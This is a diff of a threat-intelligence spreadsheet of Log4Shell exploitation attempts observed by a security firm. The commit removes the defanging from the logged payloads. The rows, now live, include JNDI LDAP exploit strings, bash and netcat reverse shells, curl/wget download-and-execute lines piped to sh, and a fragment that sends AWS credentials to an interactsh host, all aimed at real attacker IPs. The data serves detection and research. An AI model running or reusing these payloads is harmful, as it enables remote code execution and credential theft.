

Before and after one commit to secureworks/log4j-analysis, a TSV file: taegis-log4j-ip-analysis.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/taegis-log4j-ip-analysis.tsv
+++ b/taegis-log4j-ip-analysis.tsv
-C30: curl -s http[:]//144[.]202.46.26:8087 || wget -q http[:]//144[.]202.46.26:8087
+C30: curl -s http://144.202.46.26:8087 || wget -q http://144.202.46.26:8087
-C31: bash -i >& /dev/tcp/140[.]143.45.223/6677 >&1
+C31: bash -i >& /dev/tcp/140.143.45.223/6677 >&1
-C32: ${jndi:ldap:/95[.]179.164.209:443/Deserialization/CommonsBeanutils1/ReverseShell/95[.]179.164.209/8080}
+C32: ${jndi:ldap:/95.179.164.209:443/Deserialization/CommonsBeanutils1/ReverseShell/95.179.164.209/8080}
-C33: wget 54[.]37.93.31/x86; chmod 777…
+C33: wget 54.37.93.31/x86; chmod 777…
-C34: (curl http[:]//164[.]52.212.196:88/vc || wget -q -O- http[:]//164[.]52.212.196:88/vc) | sh
+C34: (curl http://164.52.212.196:88/vc || wget -q -O- http://164.52.212.196:88/vc) | sh
-C35: …~/.aws/credentials)' https://<redacted token>.interactsh[.]com
+C35: …~/.aws/credentials)' https://<redacted token>.interactsh.com
-C36: curl http[:]//64[.]225.54.148/<redacted victim domain>
+C36: curl http://64.225.54.148/<redacted victim domain>
-C37: ${jndi:ldap://159[.]223.5.30:443/Deserialization/CommonsBeanutils1/ReverseShell/159[.]223.5.30/9998}
+C37: ${jndi:ldap://159.223.5.30:443/Deserialization/CommonsBeanutils1/ReverseShell/159.223.5.30/9998}
-C38: nc 139[.]59.138.109 8080
+C38: nc 139.59.138.109 8080
-C39: ${jndi:ldap://167[.]99.32.139:1389/Basic/ReverseShell/167[.]99.32.139/9999}
+C39: ${jndi:ldap://167.99.32.139:1389/Basic/ReverseShell/167.99.32.139/9999}
-C40: ${jndi:ldap://156[.]253.5.199:1389/Basic/ReverseShell/156[.]253.5.199/8088}
+C40: ${jndi:ldap://156.253.5.199:1389/Basic/ReverseShell/156.253.5.199/8088}
-C41: wget http[:]//canarytokens[.]com/static/<redacted token>
+C41: wget http://canarytokens.com/static/<redacted token>
-C42: wget http[:]//83[.]138.53.135/p -O /tmp/p;chmod…
+C42: wget http://83.138.53.135/p -O /tmp/p;chmod…
-C43: <redacted token>[.]burpcollaborator.net:65500/pwned
+C43: <redacted token>.burpcollaborator.net:65500/pwned
```
Also changed, not shown: 28 edited cells elsewhere in this file.
